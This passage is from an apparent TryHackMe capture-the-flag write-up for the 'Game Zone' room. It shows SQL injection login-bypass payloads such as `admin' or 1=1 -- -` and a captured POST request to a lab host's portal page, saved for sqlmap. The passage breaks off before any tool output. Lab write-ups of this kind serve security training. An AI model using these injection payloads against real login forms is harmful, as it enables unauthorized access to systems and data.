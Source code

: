 #tryhackme #SQL-Injection #mysql #login-bypass #sqlmap #hash-identifier #john #whatweb #searchsploit #httpie #nmap #linux 

## Obtain access via SQLi
---
Login form looks super suspicious

Try payload `admin' or 1=1 -- -`

> Can try another payload : `' or 1=1 -- -`

![](../../attachment/ec5a1413e28beb4292074566182070f3.png)

Login success, redirected to `/portal.php`

Single quote test, found SQLI

![](../../attachment/6d91aedeae530e202b8a480f423cb8ee.png)

## Using SQLMap
---

Copy the post request from burp

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ cat search.req
POST /portal.php HTTP/1.1
Host: 10.10.233.188
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://10.10.233.188
Connection: close
Referer: http://10.10.233.188/portal.php
Cookie: PHPSESSID=hfp4m5d57ch4asnstemhgek4l3
```